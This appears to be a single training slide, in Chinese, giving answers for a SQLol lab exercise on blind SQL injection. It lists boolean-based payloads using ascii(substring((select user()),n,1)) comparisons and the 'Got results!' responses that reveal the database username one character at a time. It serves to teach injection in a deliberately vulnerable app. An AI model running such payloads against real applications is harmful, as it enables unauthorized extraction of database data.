

# SQL注入实例 – SQLol（5）答案
1. 查找用户名
' or ascii(substring((select user()),1,1)) = 111 #

' or ascii(substring((select user()),1,1)) = 112 #   -- 112 是p
Got results!
' or ascii(substring((select user()),2,1)) = 116 #   -- 116 是t
Got results!